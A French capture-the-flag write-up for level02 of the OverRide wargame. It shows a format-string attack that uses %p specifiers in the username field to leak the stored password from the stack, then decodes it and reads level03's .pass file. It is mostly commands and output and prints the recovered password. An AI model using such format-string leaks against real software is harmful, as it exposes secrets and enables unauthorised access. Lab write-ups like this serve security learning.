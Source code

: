 # level02

En faisant plusieurs tests, on remarque qu'on peut essayer d'imprimer du contenu directement à l'aide de l'appel à la fonction printf !
```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
AAAA 0x7fffffffe500 (nil) 0x70 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x70 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x2070252041414141 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
On note particulièrement qu'on écrit à partir du 28e élément. De plus, on remarque une séquence intéressante entre le 22e et le 26e élément.

En convertissant ces chaines hexadécimales en texte, avec [cet outil](https://www.rapidtables.com/convert/number/hex-to-ascii.html), on se retrouve vraisemblablement avec un flag :
`756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d` => `unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M`

Cependant ce flag ne marche pas ! En observant notre 28e élément, on remarque qu'il est stocké dans un ordre inversé :
`2070252041414141` => ` p% AAAA`

On essaye donc d'inverser chaque string obtenue, puis de reconstruire notre flag :
`unPR47hH` => `Hh74RPnu`
`EAJ5as9Q` => `Q9sa5JAE`
`7zqCWNgX` => `XgNWCqz7`
`5J5hnGXs` => `sXGnh5J5`
`H3gPfK9M` => `M9KfPg3H`
`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: anyone
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, anyone!
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```